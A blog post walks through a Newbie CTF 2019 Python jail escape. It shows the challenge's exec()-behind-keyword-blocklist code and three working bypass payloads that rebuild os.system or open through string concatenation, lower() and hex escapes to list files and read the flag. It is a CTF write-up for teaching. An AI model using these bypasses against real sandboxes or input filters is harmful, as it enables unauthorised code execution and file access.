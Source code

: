 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019) - DSPYT"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "/images/posts/jailescape/image-e1658960653261.webp"
time_read: "5 min"
tags: ["Python", "ctf", "ethical-hacking"]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

The jail is basically a set of python code that is executed on the python process when the user executes certain commands, in this case entering specific lines of text. This is possible since Python allows passing parameters to the application. In this particular case, the script only checks if the command passed is not banned.

![Python jail Escape](/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">Hi! Welcome to pyjail!
<span style="color: #666666">========================================================================</span>
<span style="color: #60a0b0; font-style: italic">#! /usr/bin/python3</span>
<span style="color: #60a0b0; font-style: italic">#-*- coding:utf-8 -*-</span>
def main<span style="color: #666666">()</span>:
print<span style="color: #666666">(</span>“Hi! Welcome to pyjail!”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>open<span style="color: #666666">(</span>__file__<span style="color: #666666">)</span>.read<span style="color: #666666">())</span>
print<span style="color: #666666">(</span>“<span style="color: #666666">========================================================================</span>”<span style="color: #666666">)</span>
print<span style="color: #666666">(</span>“RUN”<span style="color: #666666">)</span>
<span style="color: #bb60d5">text</span> <span style="color: #666666">=</span> input<span style="color: #666666">(</span>‘&gt;&gt;&gt; ‘<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">for </span>keyword in <span style="color: #666666">[</span>‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’<span style="color: #666666">]</span>:
<span style="color: #007020; font-weight: bold">if </span>keyword in text:
print<span style="color: #666666">(</span>“No!!!”<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">return</span>;
<span style="color: #007020; font-weight: bold">else</span>:
<span style="color: #007020">exec</span><span style="color: #666666">(</span>text<span style="color: #666666">)</span>
<span style="color: #007020; font-weight: bold">if </span><span style="color: #bb60d5">__name__</span> <span style="color: #666666">==</span> “__main__”:
main<span style="color: #666666">()</span>
<span style="color: #666666">========================================================================</span>
RUN
</pre></div>

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called “import” and pass it the input “os”. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **builtins** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="color: #4070a0">&#39;__builtins__&#39;</span>], <span style="color: #4070a0">&#39;__im&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;port__&#39;</span>)(<span style="color: #4070a0">&#39;o&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;s&#39;</span>), <span style="color: #4070a0">&#39;sys&#39;</span><span style="color: #666666">+</span><span style="color: #4070a0">&#39;tem&#39;</span>)(<span style="color: #4070a0">&#39;ls .&#39;</span>))
<span style="color: #888888">bin</span>
<span style="color: #888888">boot</span>
<span style="color: #888888">dev</span>
<span style="color: #888888">etc</span>
<span style="color: #888888">home</span>
<span style="color: #888888">lib</span>
<span style="color: #888888">lib32</span>
<span style="color: #888888">lib64</span>
<span style="color: #888888">libx32</span>
<span style="color: #888888">media</span>
<span style="color: #888888">mnt</span>
<span style="color: #888888">opt</span>
<span style="color: #888888">proc</span>
<span style="color: #888888">root</span>
<span style="color: #888888">run</span>
<span style="color: #888888">sbin</span>
<span style="color: #888888">srv</span>
<span style="color: #888888">sys</span>
<span style="color: #888888">tmp</span>
<span style="color: #888888">usr</span>
<span style="color: #888888">var</span>
<span style="color: #888888">0</span>
<span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">globals</span>()[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>__im<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>port__<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>o<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>s<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>sys<span style="border: 1px solid #FF0000">’</span><span style="color: #666666">+</span><span style="border: 1px solid #FF0000">’</span>tem<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span>cat home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>))

<span style="color: #888888">KorNewbie{H311o*h0w*@r3_y0u_d0lng?}</span>

</pre></div>

Another solution to the Capture the Flag challenge is to use lower() string method:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #888888">&gt;&gt;&gt;__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)</span>
</pre></div>

We could also encode the strings to display the hidden key:

<div style="background: #f0f0f0; overflow:auto;width:auto;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%"><span style="color: #c65d09; font-weight: bold">&gt;&gt;&gt; </span><span style="color: #007020; font-weight: bold">print</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(<span style="color: #007020">getattr</span>(main, <span style="border: 1px solid #FF0000">‘</span>__globals__<span style="border: 1px solid #FF0000">’</span>)[<span style="border: 1px solid #FF0000">‘</span>__builtins__<span style="border: 1px solid #FF0000">’</span>], <span style="border: 1px solid #FF0000">‘</span>\x6f\x70\x65\x6e<span style="border: 1px solid #FF0000">’</span>)(<span style="border: 1px solid #FF0000">‘</span><span style="color: #666666">/</span>home<span style="color: #666666">/</span>python_jail<span style="color: #666666">/</span>flag<span style="border: 1px solid #FF0000">’</span>, <span style="border: 1px solid #FF0000">‘</span>rb<span style="border: 1px solid #FF0000">’</span>), <span style="border: 1px solid #FF0000">‘</span>\x72\x65\x61\x64<span style="border: 1px solid #FF0000">’</span>)())
<span style="color: #888888">b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}</span>
</pre></div>

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
